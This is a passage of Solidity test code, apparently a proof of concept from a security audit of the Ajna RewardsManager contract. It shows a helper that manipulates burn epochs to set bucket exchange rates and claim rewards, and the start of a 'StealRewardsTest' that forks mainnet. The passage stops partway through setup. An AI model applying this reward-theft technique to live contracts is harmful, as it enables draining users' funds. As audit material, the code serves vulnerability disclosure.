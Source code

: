 ```solidity

        uint256[] memory depositIndexes = new uint256[](1);
        depositIndexes[0] = 0;

        // setup the `prevBucketExchangeRate`
        _currentBurnEpoch = 1;
        rewardsManager.updateBucketExchangeRatesAndClaim(address(this), depositIndexes);

        _currentBurnEpoch = 2;
        rewardsManager.updateBucketExchangeRatesAndClaim(address(this), depositIndexes);
    }

}

contract StealRewardsTest is Test {
    address internal _ajna = 0x9a96ec9B57Fb64FbC60B423d1f4da7691Bd35079;
    ERC20 internal _ajnaToken;

    IRewardsManager  internal _rewardsManager;
    IPositionManager internal _positionManager;
    ERC20PoolFactory internal _poolFactory;

    function setUp() external {
        vm.createSelectFork(vm.envString("ETH_RPC_URL"));

        _ajnaToken       = ERC20(_ajna);
        _poolFactory = new ERC20PoolFactory(_ajna);
        _positionManager = new PositionManager(_poolFactory, new ERC721PoolFactory(_ajna));
        _rewardsManager  = new RewardsManager(_ajna, _positionManager);

